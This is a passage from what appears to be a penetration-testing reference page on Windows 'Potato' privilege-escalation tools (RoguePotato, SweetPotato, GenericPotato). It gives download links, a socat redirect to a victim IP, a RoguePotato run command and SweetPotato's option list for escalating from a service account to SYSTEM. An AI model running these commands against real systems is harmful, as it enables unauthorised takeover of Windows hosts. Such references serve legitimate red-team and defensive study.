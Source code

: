 Download the binary from the repository: [Here](https://github.com/antonioCoco/RoguePotato)

Run in your machine the _socat_ redirection (replace `VICTIM_IP`):

```
socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999
```

Execute PoC (replace YOUR\_IP and command):

```
.\RoguePotato.exe -r YOUR_IP -e "command" -l 9999
```

## <mark style="color:red;">Sweet Potato</mark>

**Sweet Potato** is a collection of various native Windows privilege escalation techniques from service accounts to SYSTEM. It has been created by [@_EthicalChaos_](https://twitter.com/\_EthicalChaos\_) and includes:

* **RottenPotato**
* **Weaponized JuciyPotato** with BITS WinRM discovery
* **PrintSpoofer** discovery and original exploit
* **EfsRpc** built on EfsPotato
* **PetitPotam**

It is the definitelly potatoe, a potatoe to rule them all.

### <mark style="color:orange;">**Exploitation**</mark>

Download the binary from the repository: [Here](https://github.com/CCob/SweetPotato)

```
./SweetPotato.exe

  -c, --clsid=VALUE          CLSID (default BITS:
                               4991D34B-80A1-4291-83B6-3328366B9097)
  -m, --method=VALUE         Auto,User,Thread (default Auto)
  -p, --prog=VALUE           Program to launch (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -e, --exploit=VALUE        Exploit mode
                               [DCOM|WinRM|EfsRpc|PrintSpoofer(default)]
  -l, --listenPort=VALUE     COM server listen port (default 6666)
  -h, --help                 Display this help
```

## <mark style="color:red;">Generic Potato</mark>

**Generic Potato** is a modified version of SweetPotato by [@micahvandeusen](https://twitter.com/micahvandeusen) to support impersonating authentication over HTTP and/or named pipes.

This allows for local privilege escalation from SSRF and/or file writes. It is handy when:

* The user we have access to has **SeImpersonatePrivilege**
* The system doesn’t have the print service running which prevents **SweetPotato**.
* WinRM is running preventing RogueWinRM
* You don’t have outbound RPC allowed to any machine you control and the BITS service is disabled preventing **RoguePotato**.
